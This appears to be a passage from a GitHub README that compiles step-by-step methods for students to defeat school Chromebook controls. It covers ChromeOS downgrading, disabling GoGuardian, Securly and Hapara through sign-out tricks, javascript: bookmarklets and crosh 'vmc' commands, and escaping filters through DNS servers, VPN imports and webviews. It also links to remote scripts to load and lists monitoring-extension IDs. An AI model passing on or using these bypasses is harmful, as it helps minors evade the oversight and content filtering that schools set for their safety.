alt+vol_up+x
```

Errors

If you have Linux enabled you will have to turn it off and turn it back on for it to work

THIS WILL RESET EVERY TIME YOU RESTART THE CHROMEBOOK SO YOU WILL NEED TO RE DO THE PROCESS

</details>

<details>
<summary><b>Fusion 360 exploit</b> Unblocked browser</summary>

**Some schools have Fusion360 already downloaded and if it isn’t, then download it through the play store. This exploit opens an unblocked browser inside of Fusion.** 

What you do is on the sign-up page, click terms of service. Then there is a YT logo at the bottom. Click it to go to the social media page. Next, click Autodesk under the YouTube text. Using this method, you get unblocked YT! For unblocked google, just look up “google.com link is description”. Go to the description and click google.com. Done! 

The admin can remove apps, so it can still be blocked.

</details>

<details>
<summary><b>Downgrading</b> Change versions</summary>  
Downgrading can be used for several exploits, to get to a version that does not have patches for certain exploits, sutch as LTBEEF. This is a built in feature of ChromeOS.

![image](https://user-images.githubusercontent.com/58097612/212685863-3d6b8ce1-7caa-4735-95a8-8eb6787b227c.png)

<i>Requirements</i>
1. A USB thumb drive with at least 4gb of storage, some board have small or bigger images, I recommend 16gb
2. A personal computer with access to downloading extentions
3. A brain
If you do not have these, you **CAN NOT** perform the exploit!

<i>Setup</i>
1. Navigate to `chrome://version` on the chromebook you with to downgrade and check for your board under `Platform` (ex I have a c3100 and it's board is stable-channel octopus).

<img src="https://user-images.githubusercontent.com/88395302/212484378-65e6e6e3-b995-48a1-b229-3265a4993279.png">

2. Navigate to https://chrome100.dev/ , press `ctrl+f` and type in your board.
3. Find and download the chrome version you want to your personal computer.

<i>Instlation</i>
1. Install Chromebook Recovery Utility onto your personal computer. (found at <a href="https://chrome.google.com/webstore/detail/chromebook-recovery-utili/pocpnlppkickgojjlmhdmidojbmbodfm?hl=en">chrome.google.com/webstore/detail/chromebook-recovery-utili/pocpnlppkickgojjlmhdmidojbmbodfm</a>
2. Open the extention, and click on the settings button in to top right hand corner, and click "use local image".
3. Select the recovery image you downloaded from chrome100.
4. Plug in the USB you wish to use, and follow the prompts on the screen.
5. On your chromebook, press esc+reload+power and follow the prompts.
6. On the checking for updates screen, press `ctrl`+`shift`+`e` to skip the "checking for updates" screen.
7. Profit.

</details>

<details>
<summary><b>Killcurly</b> Break extensions</summary>
Kill extension, by signing out.

1. Visit `chrome://settings/signOut`, the O in Out must be capital.
2. Press the big blue button
3. Go to `chrome://restart`
4. Now visit <a href="https://tinyurl.com/AddSession">tinyurl.com/AddSession</a> or <a href="https://accounts.google.com/signin/v2/identifier?hl=en&continue=https%3A%2F%2Fwww.google.com%2F&ec=GAlAmgQ&flowName=GlifWebSignIn&flowEntry=AddSession">this link</a>
5. Add your **SCHOOL** account back. It WILL NOT WORK if you add a home account back. This is just so you can still access Google Drive, Youtube, and any Google service.
6. All extensions should stop working.
7. Note that you have to repeat this every time you restart or sign out.
8. If the link gets patched and you no longer see the blue button, go to `chrome://settings/resetProfileSettings` click current settings, it'll open a blank page, on that page run 
```js
javascript:opener.chrome.send("TurnOffSync");
```
And visit `chrome://restart`.

Workaround for `chrome://settings/signOut` and `javascript:opener.chrome.send("TurnOffSync");` if both patched: Just go to `chrome://settings/syncSetup/advanced` and click 
Customize sync and then flip off the Extensions and Apps or just flip off everything exept for bookmarks

**This was discovered by zoroark and Brandon421-ops**

</details>

<details>
<summary><b>Extention Inactivity hack</b> Inactive Extensions</summary>

1. First do the Esc+Refresh+Power

2. ctrl+d then enter

3. will give you some bullcrap about dev mode is blocked press enter then you will go to a newly restarted chromebook

4. next add wifi-

5. then sign into your account

6. Immediately turn wifi off before extensions load

7. go to `chrome://settings/signOut`

8. click turn off sync and personalization and then turn wifi back on go to whatever site that is extension blocked.

1. Workaround for chrome://settings/signOut if patched: If the link gets patched and you no longer see the blue button, go to `chrome://settings/resetProfileSettings` click current settings, it'll open a blank page, on that page run 
```js
javascript:opener.chrome.send("TurnOffSync");
```
2. Workaround for `chrome://settings/signOut` and `javascript:opener.chrome.send("TurnOffSync");` if both patched: Just go to `chrome://settings/syncSetup/advanced` and click 
Customize sync and then flip off the Extensions and Apps or just flip off everything exept for bookmarks

Note: Before you do any of this do it at home so that way you don have to worry about asking for the school wifi password.

</details>

<details>
<summary><b>New Temporarily Unblock Anything</b> Temporarily Unblock Any Website</summary>

**Might Be Patched on 115 And Above**
  
1. Go to the chrome-extension://Paste the blocker id here/manifest.json page.

2. Go to a new tab page and type in the URL Website you want to unblock don´t go into that website yet just leave it inside the URL Box.

3. Go back to chrome-extension://Paste the blocker id here/manifest.json now create a bookmark called E now click more and In the URL Box you put `chrome://kill` now save that bookmark.

4. Create another bookmark called D click more In the URL Box copy and paste  `javascript:(function () {window.onbeforeunload = function() { return 1; };})()`    Into that URL Box and save that bookmark.

5. Go back to chrome-extension://Paste the blocker id here/manifest.json page and now click bookmark B then quickly go back to the new tab page and click enter now quickly spam bookmark D like 2 or more times now there should be a pop up called do you want to close this page click cancel now boom that website is unblocked until you turn off your chromebook or until you exit out of that website then if that happen´s your gonna have to do all the steps again.

  Easier way for step 2: instead of putting the URL in the new tab box go to chrome-extension://Paste the blocker id here/manifest.json page then click Bookmark E then go to a random website then use the javascript:open('https://YOUR WEBSITE HERE?'+'i'.repeat(1)) Bookmarklet then spam Bookmark D two or more times then a pop up should appear quickly click cancel now boom all done.    Name of Bookmarklet > Unblock Website: javascript:open('https://YOUR WEBSITE HERE?'+'i'.repeat(1))

Note: Save chrome-extension://Paste the blocker id here/manifest.json as a bookmark so you don´t have to come back here and type in the URL thing.

IMPORTANT NOTE: if bookmarklets are blocked your screwed

This workaround was found by <a href="https://github.com/Brandon421-ops">Brandon421-ops</a>

</details>

<details>
<summary><b>Old Temporarily Unblock Anything</b> Temporarily Unblock Any Website</summary>

1. Make a bookmark called tab close blocker now click more on the bottom left corner now in that URL BOX put  `javascript:(function () {window.onbeforeunload = function() { return 1; };})()`

2. Go to a newtab page now go into the URL BOX on the top and put https://YOUR WEBSITE HERE do not click enter yet stay in that URL BOX.

3. Do `search`+`esc` now that should open task manager if `search`+`esc` doesn't work then click the three dots on the top right now scroll down until you find more tools click that and now find task manager click it now boom done with step 3.

4. Find your blocker extension and click it now on the bottom right you should see a button called End process click it now quickly click the URL BOX on the newtab page and click enter now quickly spam the bookmark tab close blocker now a pop up should come up it should have to buttons cancel and leave click cancel and boom done.

  IMPORTANT NOTE: if bookmarklets are blocked your screwed also if task manager or the End process button for task manager is blocked your double screwed.

  </details>

<details>
<summary><b>uBlock Origin</b> Run Code On Pages</summary>

if your school allows the ublock origin chrome extension, then running the edpuzzle script (as well as any other bookmarklet) is possible

1. install ublock origin (<a href="https://chrome.google.com/webstore/detail/ublock-origin/cjpalhdlnbpafiamejdnhcphjbkeiagm">https://chrome.google.com/webstore/detail/ublock-origin/cjpalhdlnbpafiamejdnhcphjbkeiagm</a>)

2. go to the extension's settings

3. under the settings tab, check the "i am an advanced user" box and click on the cog icon

4. inside the advanced settings (`chrome-extension://cjpalhdlnbpafiamejdnhcphjbkeiagm/advanced-settings.html`), scroll down and find `userResourcesLocation` now change `userResourcesLocation` from `unset` to <a href="https://raw.githubusercontent.com/Brandon421-ops/Exploits-And-Hacks/main/ublockExec.js">https://raw.githubusercontent.com/Brandon421-ops/Exploits-And-Hacks/main/ublockExec.js</a>

5. in the My filters tab of the settings (`chrome-extension://cjpalhdlnbpafiamejdnhcphjbkeiagm/dashboard.html#1p-filters.html`), add `*##+js(execute_script.js)` as a filter

6. now you can press `ctrl`+`alt`+`~` to run any js on the current page

7. if you want to run a bookmarklet, just paste in the javascript: url and press ok on the popup

</details>

<details>
<summary><b>Snap&Run</b> Run Code On Pages</summary>

**Executing scripts with the "Snap&Read" extension.**

**Extension <a href="https://chromewebstore.google.com/detail/snapread/mloajfnmjckfjbeeofcdaecbelnblden">Snap&Read</a> must be installed to perform this exploit.**

### Setup
The extension needs to be signed in to an active Snap&Read account before you begin.

**Instructions.**

**Enable the Snap&Read toolbar**
- Open the Snap&Read popup by activating the extension.
- In the extension popup, enable the Snap&Read service by toggling the Snap&Read switch on.

1. Open the Snap&Read popup by activating the extension.

2. In the extension popup, enable the Snap&Read service by toggling the Snap&Read switch on.

3. In the Snap&Read toolbar, click the Show outlines  button.

4. In the Snap&Read outlines panel, click the New outline (+) button at the top left.

5. Enter any text into the outline topic's editable text area.

6. Click the bullet point of the topic.

7. Click the Link to source  option.

8. Click the plus (+) button at the bottom right.

9. Click and switch to the WEBSITE tab.

10. In the Article/Page title input field, enter the name of your chosen bookmarklet.

11. In the URL input field, enter the source of the bookmarklet, starting with `javascript:`.

**Important:** You may need to substitute escape characters for advanced bookmarklets.

12. Click SAVE at the top right.

13. Click and switch to the OUTLINE tab.

14. In the Snap&Read toolbar, click the Hide outlines  button.

### Script Execution

**Instructions**

Follow on a page of your choice.

1. In the Snap&Read toolbar, click the Show outlines  button.

2. In your created outline, click the link separated by parenthasis that contains the bookmarklet.

3. In the Snap&Read toolbar, click the Hide outlines  button.

4. Disable the Snap&Read toolbar

5. Open the Snap&Read popup by activating the extension.

6. In the extension popup, disable the Snap&Read service by toggling the Snap&Read switch off.

**Disable the Snap&Read toolbar**
- Open the Snap&Read popup by activating the extension.
- In the extension popup, disable the Snap&Read service by toggling the Snap&Read switch off.

</details>

<details>
<summary><b>Incognito</b> Bypass Extensions</summary>
IP Servers: Server 1. 52.207.185.90
            Server 2. 158.111.114.159

Step 1. Go to your settings

Step 2. Click on the wifi your using rn then click it again.

Step 3.  Scroll down until you see network once you see the option click it.

Step 4. Scroll down until you find custom name servers now once you find the option click it.

Step 5. Paste in the IP Server.

Step 6. Now there should be a notification saying open new tab click that and now you should be in a small window some instructions and there are 2 buttons click the yellow with black letters button and boom Incognito Mode is Unblocked.
One of the buttons are just a link in blue don´t click that one is just for test´s
Step 7. Go back to the network settings and change back the custom name servers to automatic name servers.
Note: If your connection is slow if your school has more than one wifi then connect to the other wifi that might have a better connection.

Btw if you close out of the Incognito Tab your gonna have to do all the steps again.

Cool Advanced Facts About Incognito Mode:
1. Bypass Extensions Aka Unblock All Websites.
2. Your History Is Hidden From Your School

</details>

<details>
<summary><b>Incognito On The Sign-In Screen</b> Bypass Extensions/Unblocked Google Webview</summary>
Might work but idk if it will

IP Servers: Server 1. 52.207.185.90
            Server 2. 158.111.114.159

Step 1. On the sign-in screen go to your wifi settings and click on the wifi your using rn

Step 2. Then Scroll down until you see network once you see the option click it.

Step 3. Scroll down until you find custom name servers now once you find the option click it.

Step 4. Paste in the IP Server.

Step 5. Now on the network settings click the sign in and now you should be in a small window some instructions and there are 2 buttons click the blue link and boom unblocked webview of google.

Cool Advanced Facts About Incognito Mode:
1. Bypass Extensions Aka Unblock All Websites.
2. Your History Is Hidden From Your School

</details>

<details>
<summary><b>Chrome-Signin Webview</b> Bypass Extensions</summary>
Unblocked Google
  
Step 1. Go to `chrome://chrome-signin`

Step 2. Click ok on the bottom right corner

Step 3. In the Email text box put `google@d11.org`

Step 4. Click `signin options`

Step 5. Now click signin with github

Step 6. Click the github logo

Step 7. In the search box on the top Right type google and then click see more topics then you will see all the google links click `www.google.com` now boom unblocked Google.

</details>

<details>
<summary><b>Chrome-Signin Webview 2</b> Bypass Extensions</summary>
Unblocked Google
  
Step 1. Go to `chrome://chrome-signin`

Step 2. Click ok on the bottom right corner

Step 3. In the Email text box put `google@d11.org`

Step 4. Click `signin options`

Step 5. Now click signin with github

Step 6 Click forgot password instead of github logo

Step 7. Click docs

Step 8. Scroll down

Step 9. Click ask the GitHub community

Step 10. Search google and click the hyperlink on the right

Credit to snail for finding this workaround.

</details>

<details>
<summary><b>Microsoft Labs</b> Bypass Extensions</summary>

YOU NEED A MICROSOFT ACCOUNT FOR THIS

Go to: <a href="https://learn.microsoft.com/en-us/training/modules/implement-common-integration-features-finance-ops/10-exercise-1">https://learn.microsoft.com/en-us/training/modules/implement-common-integration-features-finance-ops/10-exercise-1</a>

Next, sign into your Microsoft account, then if it doesn't already, go back to that link

Then, hit Launch VM Mode See images attached if needed

After it loads it's gonna ask for a password, the password is pass@word1 See images attached if needed

Then boom, you are done.

It's still kinda limited, like you can't go on Spotify sound doesn't output anyway and it, blocks random sites, but discord 100% works

Thanks to a user in TN, I was informed the best vpn to get around the FortiNet thing "Greenhub" on the Edge add-ons 

</details>

<details>
<summary><b>Quick View</b> Bypass Extensions</summary>

**QuickView is a universal webview exploit in Chrome OS that utilizes the QuickOffice component extension. This exploit lets you create login windows with arbitrary URLs, thus allowing you to load pages without any extensions.**

Go to <a href="https://quickview-exploit.pages.dev/">this link</a> and follow instructions

WARNING: If `javascript://` is blocked then you can't preform this exploit

Credit to <a href="https://ading.dev/">ading2210</a> and <a href="https://buymeacoffee.com/bypassi">Bypassi#7037</a> for finding this exploit

</details>

<details>
<summary><b>Buypass</b> Temporarily Unblock Websites</summary>

Exploit Made By <a href="https://buymeacoffee.com/bypassi">Bypassi#7037</a>

Here's the original github repo of the buypass exploit: <a href="https://github.com/bypassiwastaken/buypass">Bypassi#7037's Buypass Exploit Github Repo</a>

Here's the original website of the buypass exploit: <a href="https://buypass.bypassi.com/">Bypassi#7037's Buypass Exploit Website</a>

Here's the forked github repo of the buypass exploit: <a href="https://github.com/Brandon421-ops/buypass">Brandon421-ops's Forked Buypass Exploit Github Repo</a>

Here's 3 alternative websites of the buypass exploit:

1. <a href="https://buypass.brandonprather.repl.co/">Buypass Exploit Repl Website</a>

2. <a href="https://buypass.glitch.me/">Buypass Exploit Glitch Website</a>

3. <a href="https://buypass.netlify.app/">Buypass Exploit netlify.app Website</a>

This Exploit Is Kinda Similar To The Quick View Exploit

</details>

<details>
<summary><b>[Webview] Testnav Exploit</b> Unblocked Webview for either google or a web browser</summary>

Step 1. Download Testnav off the webstore/playstore/or run as a kiosk app as some schools have it added as one

Step 2. Open it

Step 3. After opened it will probably bring you to the page were you select your consumer, click aimsweb/aimsweb plus

Step 4. After you click goto select your district in the bottom right corner of the page

Step 5. Select “STRATFORD FRIENDS SCHOOL” 

Step 6. Click the arrow to the right of the selection box

Step 7. Click sign in options
a) Click sign in with github

Step  8. Click the github logo at the top of the screen

Step 9. Click the three bars in the top right corner, then goto the search box and type in googleyay

Step 11. Scroll down until you see DerDer56/googleyay

Step 12. There's several links to choose from, but if there's a link you want that's not there click the Bypassi Redirect Tool

(Optional) Step 13. Type in the link you want to go on and click "Go To the URL"

Step 14. Click it and you have webview (unblocked browser)

</details>

<details>
<summary><b>OP Crosh</b> Disable extensions with crosh and vmc</summary>

### Requirements
- A managed Chromebook with crosh enabled
- The `VmManagementCliAllowed` policy either unset or set to true
- Some form of removable media for noting down extension IDs (only useful for the second method and not required, but this prevents you from mistyping an extension ID).
- A willingness to powerwash

### There are two variations to this method:
1. Disabling all extensions. This is probably the most reliable, but you'd be left without useful extensions such as any adblockers. You also aren't able to install anything from the Chrome Web Store either.

2. Disabling specific extensions. This is less reliable, since this only becomes possible once Chrome OS has installed at least one extension already, which could be one that you're trying to disable.

### Testing if the method is possible:
1. Open crosh by hitting `ctrl`+`alt`+`t`
. If a command line pops up then you have crosh enabled and you can move on to step 2.

2. Test the `VmManagementCliAllowed` policy by running the `vmc` command. If a list of subcommands is shown, then you're good to go.

### Instructions:
1. Back up any data you want before the powerwash.

2. If you're doing the second variation, note down any extension IDs. You may also want to do this if you intend on disabling all extensions, since sometimes that will fail and require you to specify each extension you want to disable.

3. Powerwash by attempting to enable developer mode. Instructions are available <a href="https://chromium.googlesource.com/chromiumos/docs/+/master/developer_mode.md#dev-mode">here</a>.

4. Log into your Google account as normal, but immediately disable your internet right after you sign in.

5. You should be logged into your account, but without any extensions installed due to being offline.

6. Here the instructions are split, so follow the one for the method that you want to do.
 
### Disable All Extensions:
1. Open up crosh by hitting `ctrl`+`alt`+`t`

2. Type in `vmc create-extra-disk --size 1 /home/chronos/user/Extensions`

3. Run that command.

4. If it fails with a "file exists" error, then you must individually specify each extension that you want to remove. Move to step 5 of the next section to do that.

5. Re-enable your internet, and no extensions should be installed.
 

### Disable Specific Extensions:
1. Navigate to `chrome://extensions`.

2. Enable your internet, and immediately disable it when an extension is installed.

3. Assuming the installed extension was not one that you were trying to disable, move on to step 4. If it was, you'd have to powerwash to try again.

4. Open up crosh by hitting `ctrl`+`alt`+`t`.

5. For each extension you want to disable, run this command: `vmc create-extra-disk --size 1 /home/chronos/user/Extensions/{extension_id}`

6. Each command should look something like this: `vmc create-extra-disk --size 1 /home/chronos/user/Extensions/cjpalhdlnbpafiamejdnhcphjbkeiagm`

7. Re-enable your internet, and if you typed/pasted in the extension IDs correctly, those specific extensions should be blocked from ever being installed.

Credit to <a href="https://ading.dev/">ading2210</a> for finding this exploit

</details>

<details>
<summary><b>GoGuardian Fever</b> Disable GoGuardian</summary>

IF YOU DO NOT HAVE GOGUARDIAN THIS EXPLOIT WILL NOT WORK FOR YOU
Getting Started

1. Obviously (but still needs to be said due to skids in Titanium Network), make sure GoGuardian is actually installed

2. Visit any of the links and copy the text in it and paste it in a newtab <a href="https://github.com/Brandon421-ops/Exploits-And-Hacks/blob/main/GoGuardian%20Fever.txt">Link 1</a> <a href="https://raw.githubusercontent.com/Brandon421-ops/Exploits-And-Hacks/main/GoGuardian%20Fever.txt">Link 2</a> <a href="https://pastebin.com/raw/ytcMuigM">Link 3</a>

3. On that tab there will be a simple white screen with nothing on it, reload the page

4. If the GET request fails and you are left on an error screen (don't panic, this is intended, continue)

5. Visit `chrome://restart` to clear cached sites from GoGuardian

Enjoy a free browsing context

To undo

1. On <a href="https://goguardian.com">goguardian.com</a>, press the lock icon at the top left of the screen

2. Press cookies and site data

3. Click manage cookies

4. Then click clear each site's cookies you see there

</details>

<details>
<summary><b>Disable GoGuardian With The Chat</b> Disable GoGuardian [Unreliable]</summary>

1. wait until your teacher opens the chat window thingy

2. spam the x button until it stops re-opening

3. open the url `chrome-extension://haldlgldplgnggkjaafhelgiaglafanh/manifest.json`

4. open `chrome://extensions/?id=haldlgldplgnggkjaafhelgiaglafanh`, and toggle the “allow access to file:// urls” switch

goguardian is now disabled and you can close both tabs 

made by carteeeee

</details>

<details>
<summary><b>GoGuardian TabCrash</b> Disables GoGuardian Actions w/TAB LIMIT</summary>

**Teacher's can still see your screen, but they can't block or close any of your tabs.**

**YOUR TEACHER NEEDS TO HAVE SET A TAB LIMIT. TRY OPENING TONS OF TABS TO CONVINCE THEM TO ENABLE TAB LIMITS**.

1. create a bookmark named anything: `javascript: window.onbeforeunload = ()=>{return false;}`

2. Hold down CTRL and then SPAM CLICK the bookmark until you're well above the tab limit, opening a bunch of `about:blank` pages.

3. It might ask if you want to leave this page, this is goguardian trying to close it. Say No, and click `Prevent from creating additional dialogues`.

4. Enjoy your unblocked stay!

To undo: close all of your `about:blank` tabs

#### Discovered by @py660

</details>

<details>
<summary><b>GoGuardian TabCrash 2</b> Disables GoGuardian Actions w/TAB LIMIT</summary>

**If your teacher has turned on the tab limit you can bypass this with an extension. If the extension is blocked, sorry.**

Step 1. Download the extension <a href="https://chromewebstore.google.com/detail/read-aloud-a-text-to-spee/hdhinadidafjejdhmfkjgnolgimiaplp">Read Aloud: A Text to Speech Voice Reader</a>

Step 2. Use one of your tabs to go to IReady or Scratch. You just need a site that would display the error when you close the tab "Are you sure you want to close this site? Unsaved changes could be lost." 

Step 3. When you have the site with unsaved changes, click the extension until you see the error. Click cancel on the error.

Step 4. The extension should have opened some tabs which say: "Read Aloud uses this tab for audio playback."

Step 5. If you saw the error and clicked cancel, you should have bypassed the tab limit.

</details>

<details>
<summary><b>Insecurly</b> Toggle the Securly extension</summary>

**ONLY FOR SECURLY USERS**

Go to <a href="https://www.disablesecurly.com/">this link</a> and follow instructions

If blocked then go cry in a corner

Credit to <a href="https://www.buymeacoffee.com/bypassi">Bypassi#7037</a> for finding/Making this exploit

</details>

<details>
<summary><b>A Bypass For Securly and a few of other blocker extensions</b> Manipulate any website so securly or any other blocker extension can't block it</summary>

At any URL put #translate.google.com at the end of it or put ?suicidepreventionlifeline.org at the end of it and bam you just unblocked a website by Manipulating the URL

This only works for securly and some other blocker extensions

</details>

<details>
<summary><b>Glitch through securly</b> Unblock any website blocked from securly</summary>

**This only works if your admin/school uses securly. Not sure if this can be blocked or not. So im going to do this step by step**

1. Go to the blocked site you want to access

2. Once it shows the blocked page copy the url it shows

3. Go to the url bar and delete everything between https:// and the first "?"

4. Paste the website url

5. press enter and voila it should be unblocked

6. Have fun

confirmed working with xbox cloud gaming and now.gg

If it doesn't work then go cry.

</details>

<details>  
<summary><b>SOT Exploit</b> Unblock any website or Open any website in a about:blank page</summary>

1. Download this extension <a href="https://chromewebstore.google.com/detail/onetab/chphlpgkkbolifaimnlloiipkdnihall">One Tab</a>

2. Click the import button in the settings tab.

3. Copy-paste the URL you wish to visit about 100 times, and then click import.

4. Spam click the top link, then either spam escape on one of them or wait for one to load on a about:blank page.
  
Credit to <a href="https://github.com/Coding4Hours">Coding4Hours</a>

</details>

<details>
<summary><b>Chaos</b> A full bypass method for Hapara Highlights and Hapara Filter</summary>

**Devtools must not be blocked by policy to perform this exploit.**

Go to <a href="https://xlak.github.io/chaos/">this link</a> and follow instructions

If blocked then go cry in a corner

</details>

<details>  
<summary><b>Filter session bypass</b> Bypass hapara filter session</summary>

Bookmark this link: <a href="filtersessionbypass.txt">filtersessionbypass.txt</a>

During a filter session, right click the link, and press "Open in a new tab"
Then insert the URL for any website you want to go to.  Make sure to include https://<br>
If it says "website name refused to connect", try using a web proxy.<br>
Also this dosn't bypass blocker extentions so use an unblocked link, or another exploit.

</details>

<details>  
<summary><b>Hapara Lock Screen Bypass</b> Bypass Hapara Lock Screen</summary>

1. Make bookmarks of pages you want to visit beforehand.

2. Once your screen is paused, spam unfullscreen. Each time you do, you should see your tabs and bookmark bar come back. Attempt to right-click on the bookmarks bar until a menu shows up.

3. In the menu, select “Add folder”. Name it whatever you like. Hit Done. With luck, your tabs and bookmarks should stay at the top of your screen. If not, try again.

4. Once the tab and bookmarks bar stays, spam-click one of the bookmarks you made. This lags Hapara into displaying your page instead of the pause page. Turn off your wifi as soon as the page fully loads. This stops data flow between your amd the teacher’s computer, so that they can’t re-pause your screen.

</details>

<details>
<summary><b>Network Bypassing Via DNS</b> A bypass for any network filters</summary>

**A network filter is something that blocks website on the actual network instead of the operating system. Thus you can't disable with exploits like LTBEEF or LTMEAT.**

IP Server 1: 8.8.8.8 in all boxes

IP Server 2: 1.1.1.1 in the first box and 1.0.0.1 in the second box the third and fourth box stay 0.0.0.0

Step 1. Go to your settings

Step 2. Click on the wifi your using rn then click it again.

Step 3.  Scroll down until you see network once you see the option click it.

Step 4. Scroll down until you find custom name servers now once you find the option click it.

Step 5. Paste in one of the IP Server's.

Note: If IP Server 1 doesn't work then use IP Server 2 if IP Server 2 doesn't work then try using IP Server 1 if they both don't work your screwed

</details>

<details>  
<summary><b>Network Bypassing Via VPN</b> A bypass for any network filters</summary>

**A network filter is something that blocks website on the actual network instead of the operating system. Thus you can't disable with exploits like LTBEEF or LTMEAT.**

Go to <a href="https://drive.google.com/file/d/1MGVFf8d9pww0M2bO9ogxQX1LyR1y6zc_/view">this link</a> once you have downloaded the ONC file. Goto chrome://network and press "Import ONC File". You will have know if it worked if it says: "Network imported: 1". Then click on the time, or goto settings. Find VPN, click on it and click on the "Haven VPN" it will say "Connected" and now you are free.


If chrome://network is blocked, start bawling your eyes out and beat up your IT manager. 

</details>

<details>  
<summary><b>Extension ID's</b> </summary>

|Extension Name|Extension ID|
|--------------|------------|
|GoGuardian|`haldlgldplgnggkjaafhelgiaglafanh`|
|Mobile Guardian (installed)|`fgmafhdohjkdhfaacgbgclmfgkgokgmb`|
|<a href="https://chrome.google.com/webstore/detail/mobile-guardian/nglbmaiijljohnphofifiodoommladkj">Mobile Guardian (setup)</a>|`nglbmaiijljohnphofifiodoommladkj`|
|<a href="https://chrome.google.com/webstore/detail/securly-for-chromebooks/iheobagjkfklnlikgihanlhcddjoihkg">Securly (webstore)</a>|`iheobagjkfklnlikgihanlhcddjoihkg`|
|Securly|`joflmkccibkooplaeoinecjbmdebglab`|
|Securly (old)|`iheobagjkfklnlikgihanlhcddjoihkg`|
|Securly Classroom|`jfbecfmiegcjddenjhlbhlikcbfmnafd`|
|<a href="https://chrome.google.com/webstore/detail/blocksi-enterprise-editio/ghlpmldmjjhmdgmneoaibbegkjjbonbk">Blocksi</a>|`pgmjaihnmedpcdkjcgigocogcbffgkbn`|
|<a href="https://chrome.google.com/webstore/detail/iboss-cloud-enterprise/kmffehbidlalibfeklaefnckpidbodff">iBoss</a>|`kmffehbidlalibfeklaefnckpidbodff`|
|<a href="https://chrome.google.com/webstore/detail/forticlient-chromebook-we/igbgpehnbmhgdgjbhkkpedommgmfbeao">Fortiguard</a>|`igbgpehnbmhgdgjbhkkpedommgmfbeao`|
|<a href="https://chrome.google.com/webstore/detail/cisco-umbrella-chromebook/jcdhmojfecjfmbdpchihbeilohgnbdci">Cisco Umbrella</a>|`jcdhmojfecjfmbdpchihbeilohgnbdci`|
|NetRef|`khfdeghnhlpdfeenmdofgcbilkngngcp`|
|<a href="https://chrome.google.com/webstore/detail/ckauthenticator/jdogphakondfdmcanpapfahkdomaicfa">ContentKeeper</a>|`jdogphakondfdmcanpapfahkdomaicfa`|
|CK-Authenticator G3|`odoanpnonilogofggaohhkdkdgbhdljp`|
|<a href="https://chrome.google.com/webstore/detail/hapara-highlights-extensi/kbohafcopfpigkjdimdcdgenlhkmhbnc">Hapara</a>|`kbohafcopfpigkjdimdcdgenlhkmhbnc`|
|Smoothwall|`jbldkhfglmgeihlcaeliadhipokhocnm`|
|Linewize|`ddfbkhpmcdbciejenfcolaaiebnjcbfc`|
|<a href="https://chrome.google.com/webstore/detail/lanschool-air-chrome-exte/baleiojnjpgeojohhhfbichcodgljmnj">LANSchool</a>|`baleiojnjpgeojohhhfbichcodgljmnj`|
|<a href="https://chrome.google.com/webstore/detail/lanschool-web-helper/honjcnefekfnompampcpmcdadibmjhlk">LanSchool Web Helper</a>|`honjcnefekfnompampcpmcdadibmjhlk`|
|Lightspeed Filter Agent|`adkcpkpghahmbopkjchobieckeoaoeem`|
|Lightspeed Device Insider Agent|`njdniclgegijdcdliklgieicanpmcngj`|
|<a href="https://chrome.google.com/webstore/detail/interclass-filtering-serv/jbddgjglgkkneonnineaohdhabjbgopi">InterCLASS Filtering Service</a>|`jbddgjglgkkneonnineaohdhabjbgopi`|
|<a href="https://chrome.google.com/webstore/detail/imtlazarusv16/cgigopjakkeclhggchgnhmpmhghcbnaf">IMTLazarus</a>|`cgigopjakkeclhggchgnhmpmhghcbnaf`| 
|<a href="https://chrome.google.com/webstore/detail/impero-backdrop/jjpmjccpemllnmgiaojaocgnakpmfgjg">Impero Backdrop</a>|`jjpmjccpemllnmgiaojaocgnakpmfgjg`|
|<a href="https://chrome.google.com/webstore/detail/intersafe-gatewayconnecti/ecjoghccnjlodjlmkgmnbnkdcbnjgden">InterSafe GatewayConnection Agent</a>|`ecjoghccnjlodjlmkgmnbnkdcbnjgden`| 
|<a href="https://chrome.google.com/webstore/detail/gopher-buddy/cgbbbjmgdpnifijconhamggjehlamcif">Gopher Buddy</a>|`cgbbbjmgdpnifijconhamggjehlamcif`|
|<a href="https://chrome.google.com/webstore/detail/connect-for-chrome-educat/ddfbkhpmcdbciejenfcolaaiebnjcbfc">Connect for Chrome - Education</a>|`ddfbkhpmcdbciejenfcolaaiebnjcbfc`|

If your blocker is not on this list: go to `chrome://extensions`, details on your blockers extension, then copy the code in the url (after chrome://extensions/?id=). 
Here's all the good places to find your Blocker id 
`chrome://extensions` 
`chrome://extensions-internals` 
`chrome://process-internals` 
Search up the blocker ID on google if you have too 
If you can't find them in those URL'S Manualy then try to do ctrl + f and type in your blocker name or ID

</details>
